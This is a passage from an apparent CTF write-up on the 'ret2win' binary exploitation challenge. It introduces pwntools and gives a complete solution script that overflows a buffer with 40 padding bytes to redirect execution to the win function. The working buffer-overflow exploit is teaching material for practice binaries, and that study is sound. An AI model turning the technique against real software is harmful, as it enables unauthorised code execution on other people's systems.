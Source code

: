 ![Desktop View](/assets/posts/pwn/image19.png){: width="300" height="300" }

Imagine that the `ret2win` function is a very sensitive function, where it stored `sensitive information` such as user credentials and more. In CTF, it is used as `flag`.

So, how do we overwrite it? Introducing `pwntools`. If you want to get good in `PWN`, learn how to use `pwntools`.

Some resources to get you into `pwntools`, or use `ChatGPT` to help you:
- [CTF Socket IO, Pwntools Tips/Tricks!](https://www.youtube.com/watch?v=bzVIHp49ECU&t=8s)
- [Pwntools - Pwn Zero To Hero 0x04](https://www.youtube.com/watch?v=9wepzpQhhio&t=90s)

Hence, the solution script is as followed:

```python
from pwn import *

context.binary = binary = ELF("./ret2win")

io = process()

# the address of the ret2win function, you can use hexa representation as well
ret2win_address = binary.symbols.ret2win
# ret2win_address = 0x400756 

# craft the payload to send to the binary
payload = flat(b'A' * 40, ret2win_address)

# send the payload
io.sendline(payload)

# interact with the terminal (like cat, ls, cd and more)
io.interactive()
```

The `hexadecimal` address of the `ret2win` function can be seen here.

![Desktop View](/assets/posts/pwn/image22.png){: width="500" height="500" }
